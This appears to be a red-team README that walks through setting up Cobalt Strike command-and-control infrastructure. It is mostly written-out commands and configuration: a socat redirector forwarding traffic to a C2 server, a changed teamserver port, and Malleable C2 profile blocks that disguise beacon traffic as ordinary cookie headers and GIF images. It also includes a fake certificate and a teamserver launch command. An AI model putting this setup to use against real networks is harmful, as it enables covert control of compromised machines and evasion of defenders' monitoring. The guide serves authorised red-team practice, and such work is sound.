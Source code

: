 # C2 Infrastructure

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/C2Infrastructure/Screen1.png?raw=true)

## Setup Redirector
```
socat TCP4-LISTEN:80,fork TCP4:C2_Server_IP:80
```

## Setup C2 Server (Cobalt Strike)

### Change Default Port
```
sed 's/50050/22222/' teamserver > tmp; mv tmp teamserver
```

### C2 Profiles
```
https://github.com/rsmudge/Malleable-C2-Profiles
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/C2Infrastructure/Screen2.png?raw=true)

1- http-get -> client -> metadata
```
metadata {
	base64;
	prepend "skin=noskin;session-token=";
	append ";csm-hit=s-24KU11BB82RZSYGJ3BDK|1419899012996";
	header "Cookie";
}
```

2- http-get -> server -> output
```
output {
	prepend "Hello world!";
	mask;
	print;
}
```

3- http-post -> client -> id
```
id {
	parameter "sn";
}
```

4- http-post -> client -> output
```
output {
	base64;
	print;
}
```

5- http-post -> server -> output
```
output {
	prepend "Hello World!";
	mask;
	print;
}
```

6- http-stager -> server -> output
```
header "Content-Type" "image/gif";
output {
	prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
	prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
	prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
	print;
}
```

7- New ssl certificate
```
https-certificate {
	set O  "dmcjna";
	set CN "dmcjna";
	set validity "365";
}
```

### Test New Profile
C2 Profile Full Example: [Link](https://github.com/hassan0x/RedTeam/blob/main/C2Infrastructure/example.profile)
```
./c2lint example.profile
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/C2Infrastructure/Screen3.png?raw=true)

### Run Cobalt
```
./teamserver 8.8.8.8 P@ssw0rd example.profile &
```

### Host Index Page on C2 Server
Index Page Example: [Link](https://github.com/hassan0x/RedTeam/blob/main/C2Infrastructure/index.html)
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/C2Infrastructure/Screen4.png?raw=true)

